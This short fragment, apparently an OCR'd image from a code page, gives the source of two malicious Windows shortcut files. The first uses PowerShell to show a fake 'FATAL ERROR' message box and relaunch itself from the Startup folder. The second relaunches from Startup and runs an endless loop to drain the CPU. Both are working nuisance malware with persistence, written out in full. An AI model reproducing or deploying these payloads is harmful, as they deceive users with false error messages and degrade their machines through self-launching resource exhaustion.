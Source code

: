1.LNK generates error messages
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Add-Type -Assembly PresentationFramework;[Windows.MessageBox]::Show('An error has occurred.','FATAL ERROR','0','48');ii C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\1.lnk

2.LNK drains CPU
powershell ii C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\2.lnk; while($true){$result=1+1}

